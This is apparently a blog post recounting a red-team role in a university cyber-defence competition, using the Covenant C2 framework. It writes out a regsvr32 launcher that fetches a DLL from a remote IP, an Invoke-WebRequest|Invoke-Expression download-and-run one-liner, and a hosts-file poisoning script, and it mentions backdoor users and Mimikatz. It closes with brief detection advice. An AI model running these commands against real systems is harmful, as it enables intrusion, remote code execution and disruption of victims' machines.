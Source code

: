 ```yaml
---
layout: post
title: Power of Covenant
subtitle: Deploying Covenant
tags: 
    - redteam
    - windows
    - c2
    - security
    - powershell
    - docker
comments: true
published: true
image: /img/pwnboard_image.PNG
---
```


# Using Covenant & Red Teaming 

### Introduction

This past weekend, I had my first ever red teaming experience at 
University of Buffalo called [Lockdown](https://lockdown.ubnetdef.org/).
I knew from the start I would be tackling Windows for this competition; 
however, I wasn't sure what I wanted to do. Did I want to use 
Empire, Metasploit, maybe Pupy? The answer was none of the above.
For this competition I wanted to try out something new.

### Deploying Covenant
I decided to go with [Covenant](https://github.com/cobbr/covenant).
This is a fairly recent C2 that came out a couple months ago
based on the .NET framework and written in C#. An interesting
aspect of this C2 is that it's divided into two parts, Covenant
is the server and [Elite](https://github.com/cobbr/Elite) 
is what interacts with the server. The last part is 
just Grunts, that is just the Implant. 
One of the issues I came across when testing this is out is
how long it took to set up, I just wanted to at the start of the competition
hit a button and have everything I needed. With some help from
Docker I created a docker-compose file to assist me. This 
[file](https://github.com/NotoriousRebel/covDeploy) did the
heavy lifting for me. One really awesome aspect of this C2 was
that we could spin up Covenant on one server and when anyone
ssh'd onto our server it would docker-compose up Elite for them. 
This meant they didn't have to download docker-compose and would make
things centralized. 

![Plan](/img/plan.PNG)


### Using Covenant
Deployment was trivial all we had to do was docker-compose up.

![Easy-Deployment](/img/easy_deployment.png)

In reality we would want to tack on -d when composing Covenant
to background it. 

Using powershell with a remote session would be too noisy, 
extremely easy to notice, and trivial to kill. 
To make things stealthier I decided to go with registering a dll and utilizing Regsvr32.
As Regsvr32 is developed by Microsoft and in apart of System32
it would look a lot less suspicious. However, this requires
the dotnet framework to be installed on the target machine.
Luckily this is a oneliner that doesn't require a restart.

```powershell
Add-WindowsCapability –Online -Name NetFx3~~~~ –Source D:\sources\sxs
```
The launcher is just a simple one liner, and the icing on the cake
is that we can have our server host the dll file instead of having to get that file
on the target machine.

![Launcher](/img/launcher.png)

```powershell
regsvr32 /u /s /i:http://129.21.228.140/demo.dll scrobj.dll
```
/u: Unregister server calling DllRegisterServer

/s: Silent: display no message boxes.

/i: Since used with /u calls Dll uninstall

scobj.dll: Is the Dllname that the entry points on.

Once ran on the target machine we get a nice beacon back
and can have some fun. For the competition one of the most important
things to do is maintain persistence. Making sure to add backdoor
users, firewall rules, scheduled tasks, and services were essential.
One service that was critical is WinRM to allow us to remotely run
scripts. Making sure it was running was quite simple with 
Covenant.

![Restarting_Winrm](/img/example_powershell.PNG)

Although, in most cases we had those commands in a powershell
file hosted somewhere so we were able to simply do. 
```powershell
(IWR -Uri "https://hostingsite.com" -UseBasicParsing).Content | IEX
```
IWR: Invoke-WebRequest

IEX: Invoke-Expression

It was also fun messing with them by doing very basic things
such as messing with the hosts file in Windows.

```powershell
    $hosts_path = "C:\Windows\System32\drivers\etc\hosts"
    $local = "127.0.0.1"
    $text = @"
    $local      github.com
    $local      termbin.com
    $local      pastebin.com
    $local      tinyurl.com
    $local      bitly.com 
    $local      google.com
    $local	stackoverflow.com
    $local 	raw.githubusercontent.com
    $local 	chocolatey.org
    $local 	docs.microsoft.com
    $local 	wireshark.org
"@ 
    Add-Content -Path $hosts_path -Value $text
```

Of course Covenant had some nice features such as 
GetSystem which allowed us to run things at System level. While
also having standard things such as Mimikatz and Registry 
manipulation. However, a pretty unique feature was the integration of allowing
people to run C# sharp code.

### Customization 

Covenant on it's own is great; however, as part of the
[RITSECRedTeam](https://github.com/RITRedTeam) we like to keep track of things.
One of the most important things is the [pwnboard](https://github.com/micahjmartin/pwnboard).
The pwnboard is a visualization to keep track of what we have control of and to
see what teams are giving us trouble.

![pwnboard-blue](/img/pwnboard.PNG)

To show that you have control of a box is a mere post request with
json that contains the ip and type of beacon. There is one obvious problem,
Covenant doesn't automatically do this. That's ok I was planning on 
learning C#. After talking to the developer to figure out where to 
make the post request to pwnboard whenever a Grunt was created.

![post_req](/img/post_topwnboard.PNG)

This function is inside Covenant/GruntController.cs, 
it just does a post request using the Grunt's ip address 
wrapped inside a try catch statement in case we lose connection.

Due to last minute complications, the dotnet framework couldn't 
be installed on every Windows box so I used a powershell launcher
for all of the boxes as well as the Regsvr32 launcher if possible.
As we could prebake our stuff I was able to deploy to all of the boxes
and watch the beacons rain down as well as turn the pwnboard red.

![pwnboard-red](/img/pwnboard_red.PNG)

At the start of the competition these are just some of the beacons.

![call_backs](/img/call_backs.PNG)

### Mitigation

Monitoring processes and network traffic on your system is 
crucial as it will be much easier to spot when something 
is out of the ordinary. For example if you've never seen
Regsvr32 running on your system before it might be worthwhile
to investigate and you would be shocked at what you find.

![RegsvrImage](/img/procexp_regsvr.PNG)

However, knowing what's going in and out of your network is just as 
important if you opened wireshark and noticed a lot of http
traffic that would be highly suspicious.
For example, if you noticed this http traffic.

![http-traffic](/img/http_traffic.PNG)

Upon noticing this you followed the http stream you would notice this.

![encoded-command](/img/long-command.PNG)

### Take Aways

Although Covenant may seem somewhat limited in what it can
do compared to other C2's such as Powershell Empire
or Pupy. You have to keep in mind this came out about in February, 
regardless Covenant can already do a lot and comes with a vast amount
of rich features that are hard to ignore. 
Overall Covenant is a solid choice for a C2 framework.

References:

[Regsvr32 Info](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32)